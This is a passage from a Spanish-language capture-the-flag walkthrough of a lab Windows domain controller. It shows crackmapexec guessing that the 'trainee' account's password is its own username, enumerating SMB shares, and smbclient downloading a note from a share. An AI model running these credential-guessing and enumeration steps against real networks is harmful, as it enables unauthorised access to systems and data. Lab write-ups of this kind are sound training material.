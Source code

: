 ```bash
SMB         10.10.65.176    445    DC               1106: RETRO\BANKING$ (SidTypeUser)
SMB         10.10.65.176    445    DC               1107: RETRO\jburley (SidTypeUser)
SMB         10.10.65.176    445    DC               1108: RETRO\HelpDesk (SidTypeGroup)
SMB         10.10.65.176    445    DC               1109: RETRO\tblack (SidTypeUser)
➜  content
```

- Vemos que el usuario **trainee** existe y bueno como el admin dice que han tenido dificultades para recordar contraseñas fuertes y únicas la contraseña de los usuarios tiene que ser muy fácil si probamos con la contraseña del nombre de usuario vemos que es correcta.

```bash
➜  content crackmapexec smb 10.10.65.176 -u 'trainee' -p 'trainee'
SMB         10.10.65.176    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.65.176    445    DC               [+] retro.vl\trainee:trainee
```

- Vamos a enumerar los recursos compartidos por **smb**, ya que tenemos credenciales válidas.

```bash
➜  content crackmapexec smb 10.10.65.176 -u 'trainee' -p 'trainee' --shares
SMB         10.10.65.176    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.65.176    445    DC               [+] retro.vl\trainee:trainee
SMB         10.10.65.176    445    DC               [+] Enumerated shares
SMB         10.10.65.176    445    DC               Share           Permissions     Remark
SMB         10.10.65.176    445    DC               -----           -----------     ------
SMB         10.10.65.176    445    DC               ADMIN$                          Remote Admin
SMB         10.10.65.176    445    DC               C$                              Default share
SMB         10.10.65.176    445    DC               IPC$            READ            Remote IPC
SMB         10.10.65.176    445    DC               NETLOGON        READ            Logon server share
SMB         10.10.65.176    445    DC               Notes           READ
SMB         10.10.65.176    445    DC               SYSVOL          READ            Logon server share
SMB         10.10.65.176    445    DC               Trainees        READ
➜  content
```

- Y bueno, no vemos mucho más que **Notes** a sí que vamos a usar **smbclient** para conectarnos.

-  Y bueno, vemos un **.txt** vamos a descargarlo.

```bash
➜  content smbclient //10.10.65.176/Notes -U trainee%trainee
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jul 23 16:03:16 2023
  ..                                DHS        0  Wed Jul 26 03:54:14 2023
  ToDo.txt                            A      248  Sun Jul 23 16:05:56 2023

		6261499 blocks of size 4096. 2891438 blocks available
smb: \> get ToDo.txt
getting file \ToDo.txt of size 248 as ToDo.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \>
```
